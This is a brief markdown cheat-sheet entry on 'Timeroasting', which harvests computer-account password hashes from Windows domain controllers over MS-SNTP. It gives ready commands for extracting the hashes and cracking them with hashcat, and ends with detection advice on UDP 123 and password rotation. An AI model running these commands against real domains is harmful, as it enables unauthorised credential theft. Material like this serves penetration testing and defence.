

# Timeroasting

### Affected object / attribute
**MS-SNTP authentication** — computer and trust accounts.

### Concept (deep)
MS-SNTP auth uses a checksum keyed by the **computer account password**. Unauthenticated crafted NTP requests to a DC yield `$sntp-ms$` hashes for **all computer accounts** (and sometimes gMSA) → crack with hashcat **31300**.

### Attack flow (Mermaid)


### Commands
```bash
# ── Extract hashes ──────────────────────────────────────────────────
sudo ./timeroast.py 10.0.10.5 | tee ntp.txt

# ── Or NetExec module ────────────────────────────────────────────────
nxc smb 10.0.10.5 -u '' -p '' -M timeroast

# ── Crack ────────────────────────────────────────────────────────────
hashcat -m 31300 ntp.txt rockyou.txt
```

### Detection
NTP requests from non-DC hosts with malformed/auth extensions; monitor **UDP 123**; rotate machine passwords (default 30 days helps).

---
